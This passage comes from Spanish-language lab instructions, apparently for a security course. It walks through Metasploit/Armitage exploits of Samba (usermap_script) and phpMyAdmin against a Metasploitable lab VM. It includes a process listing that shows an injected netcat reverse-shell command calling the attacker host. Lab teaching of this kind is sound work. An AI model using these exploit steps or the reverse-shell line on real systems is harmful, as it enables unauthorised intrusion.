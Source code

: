 -   Para invocarlos basta hacer doble click sobre ellos, rellenar las
    opciones perminentes y lanzarlo.

-   En cada uno de esos módulos debemos indicar en la opción SESSION el
    nº de sesión (ó nº de shell) vinculado a la conexión obtenida por el
    exploit correspondiente.

-   Probar `enum_linux`, `enum_services` [para verlos ir a
    `Menú view -> loot`], etc)

### Tarea: explotar el servicio SMB (samba)

Repitiendo las acciones del ejemplo anterior se puede aprovechar una
vulnerabilidad en el servidor Samba de Metasploitable para ganar acceso
a la máquina comprometida.

1.  Sobre el host (198.51.100.222)
    `[botón derecho] -> Attacks -> samba -> usermap_script`

2.  Se usará el exploit `exploit/multi/samba/usermap_script`

Si en la víctima se comprueban los procesos en ejecución, de nuevo
saldrán cosas ”extrañas\`\`.

    metasploitable:~# ps -aux | less
    metasploitable:~# pstree -aclu | less

En este caso veremos que el exploit a inyectado un comando de shell que
haciendo uso de la herramienta `nc/netcat` redirecciona la E/S de un
intérprete de comandos sobre un puerto de la máquina atacante.

    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root         1  0.0  1.3   2848  1688 ?        Ss   19:23   0:00 /sbin/init
    ...
    root      4915  0.0  0.3   1776   484 ?        S    19:49   0:00 sh -c /etc/samba/scripts/mapusers.sh "/=`nohup nc 198.51.100.111 15207 -e /bin/sh `"
    ...

### Explotar una versión vulnerable de phpMyAdmin + uso de Meterpreter

En la víctima se ha instalado una versión antigua (y vulnerable) de
phpMyAdmin

-   Se puede comprobar en la URL `http://198.51.100.222/phpMyAdmin`

Pasos a seguir:

1.  Sobre el host (198.51.100.222)
    `[botón derecho] -> Attacks -> webapp -> phpmyadmin_config`

    Se usará el exploit `exploit/unix/webapp/phpmyadmin_config`.

    Se puede comprobar que la versión de phpMyAdmin instalada en
    Metasploitable es compatible con este exploit.

2.  Asegurar que la opción URI es exactamente `/phpMyAdmin/` (el exploit
    es sensible a mayúsculas/minúsculas)
